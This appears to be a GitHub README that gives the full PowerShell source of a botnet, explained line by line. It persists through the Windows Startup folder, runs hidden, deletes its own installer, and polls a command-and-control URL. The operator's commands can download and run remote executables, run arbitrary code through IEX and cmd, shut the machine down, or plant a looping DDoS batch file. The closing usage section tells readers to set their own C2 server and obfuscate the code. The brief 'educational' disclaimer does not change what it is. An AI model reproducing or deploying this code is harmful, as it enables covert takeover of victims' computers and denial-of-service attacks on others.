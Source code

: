 ## Junas botnet
<br> #### Legal #
<br> This is an educational script and should not be used for illegal/unethical actions against machines you do not own/have permission to infect
<br> 
<br> *Copyright (c) 2021 Pokesi All Rights Reserved.*
<br> ### How it works **step by step**
<br> Syntax used:
<br> `Line of code/variable` - Explanation
<br> ... `Line of code` - Explanation [not required]
<br> ...... `Line of code` - Explanation [only used for branches]
<br> ... `}` - Ends the branch
<br> 
<br> `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> `$botnetCode` - `$botnetCode` is set to the botnet code. Keep in mind that the `.ps1` file is just an installer for the botnet, the actual thing is in this variable. The following is `$botnetCode`.
<br> ... `Add-Type -AssemblyName System.IO.Compression.FileSystem;` - Adds the type used to extract `.zip` files. Used when extracting downloaded files.
<br> ... `$wc = [System.Net.WebClient]::new();` - Starts a WebClient instance in variable `$wc`. Used for downloading files. An alternative may be curl.exe, but is not tested.
<br> ... `$commandcontrolserver = "https://yoursite.com/server.txt";` - Sets `$commandcontrolserver` to https://yoursite.com/server.txt, which is the file that has the command for the botnet.
<br> ... `$wc.DownloadFile("$commandcontrolserver","command.txt");` - Downloads the command and control file to command.txt. Alternative with curl.exe may be `curl.exe --output=command.txt -X GET https://yoursite.com/server.txt`, not tested.
<br> ... `$userprof = $env:USERPROFILE;` - Gets the user's directory (e.g. C:/Users/JohnDoe/)
<br> ... `$startUpFolder = "$userprof\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup";` - `$startUpFolder` is set to the user's startup directory.
<br> ... `$cmd = (Get-Content -Path "./command.txt" -TotalCount 1)` - Sets the `$cmd` variable to the first line of `command.txt`.
<br> ... `if ($cmd == "Stop") {` - Checks if `$cmd` is "Stop". This stops the botnet.
<br> ...... `exit()` - Exits PowerShell
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Dl&Run *") {` - Checks if `$cmd` starts with "Dl&Run". This downloads a .zip file, extracts it, and runs the .exe specified. In server.txt, this should look like `Dl&Run https://fileupload.com/application.zip:application.exe`. The provided example will download `application.zip`, extract it, and run application.exe inside the extracted folder.
<br> ...... `$cmd2 = $cmd.split("Dl&Run ")[0];` - Sets `$cmd2` to the command passed to the script, but stripped of "Dl&Run"
<br> ...... `$fileToDownload = $cmd2.Split(":")[0];` - Sets `$fileToDownload` to the file the operator wants to download.
<br> ...... `try {` - PowerShell try
<br> ......... `$wc.DownloadFile("$fileToDownload","botnet.zip");` - Downloads `$fileToDownload` to `botnet.zip`
<br> ......... `cmd.exe /c "mkdir folder";` - Runs cmd.exe [command prompt] with the `/c` switch, which executes a command. In this case, `mkdir folder` is run, which makes a folder called "folder"
<br> ......... `Expand-Archive -LiteralPath "./botnet.zip" -DestinationPath "./folder"` - Extracts the downloaded file to `/folder`.
<br> ......... `Start-Process -filepath "./folder/" + ($cmd2.Split(":")[2]) + ".exe";` - Runs the file.
<br> ...... `}` - Ends the branch
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "IEX *") {` - Checks if `$cmd` starts with "IEX". If it does, it will execute the given string.
<br> ...... `$cmd3 = $cmd.split("IEX ")[0];` - Sets `$cmd3` to the command passed to the script, but stripped of IEΧ.
<br> ...... `IEX($cmd3);` - Runs the string with IEX.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "DDoS *") {` - Checks if `$cmd` starts with "DDoS". If it does, it will make a batch file in Startup that runs constant requests of that site.
<br> ...... `$cmd4 = $cmd.split("DDoS ")[0];` - Sets `$cmd4` to the command passed to the script, but stripped of DDoS
<br> ...... `":start ; curl -X GET $ddos; goto start" | Out-File "$startUpFolder\btnet.bat" -Force` - Makes a batch file in Startup that runs constant requests of that site.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd -Like "Cmd *") {` - Checks if `$cmd` starts with "Cmd". If it does, it will execute `cmd.exe` with the switch `/c` to execute a command.
<br> ...... `$cmd5 = $cmd.split("Cmd ")[0];` - Sets `$cmd5` to the command passed to the script, but stripped of Cmd.
<br> ...... `cmd /c "$cmd5";` - Executes `cmd.exe` with the switch `/c` to execute a command.
<br> ... `}` - Ends the branch
<br> ... `elseif ($cmd == "Shutdown") {` - Checks if `$cmd` is Shutdown. If it does, it will shutdown the machine.
<br> ...... `Stop-Computer;` - Shutdown machine
<br> ... `}` - Ends the branch
<br> ... `else {` - If nothing else works, do this.
<br> ...... `exit;` - Stops the script
<br> ... `}` - Ends the branch
<br> ... `Remove-Item -Path "./command.txt";` - Removes command.txt
<br> `"powershell -WindowStyle hidden -Command '$botnetCode'" | Out-File "$startUpFolder\default.bat";` - Writes `$botnetCode` to a Startup file.
<br> `Remove-Item -Path $MyInvocation.MyCommand.Source;` - Self-Destructs.
<br> ### Usage
<br> Change https://yoursite.com/server.txt to your command and control server.
<br> You may want to obfuscate this or add custom commands.

